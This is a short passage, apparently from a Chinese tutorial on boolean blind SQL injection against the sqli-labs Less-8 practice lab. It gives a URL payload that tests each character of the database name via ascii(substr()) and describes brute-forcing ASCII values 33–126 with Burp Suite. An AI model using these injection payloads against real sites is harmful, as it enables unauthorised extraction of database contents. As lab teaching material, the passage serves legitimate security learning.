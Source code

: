 下面同样以截取第一位为例：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr(database(),1,1))=115#' LIMIT 0,1;
;
```

网站的反应为：

![](盲注/photo/11.jpg)

使用此方法就可以直接通过`Burpsuite`爆破出数据库名。

为了避免有些人不按照命名规则命名，可以对ASCII码值33到126进行遍历枚举。

![](盲注/photo/12.jpg)
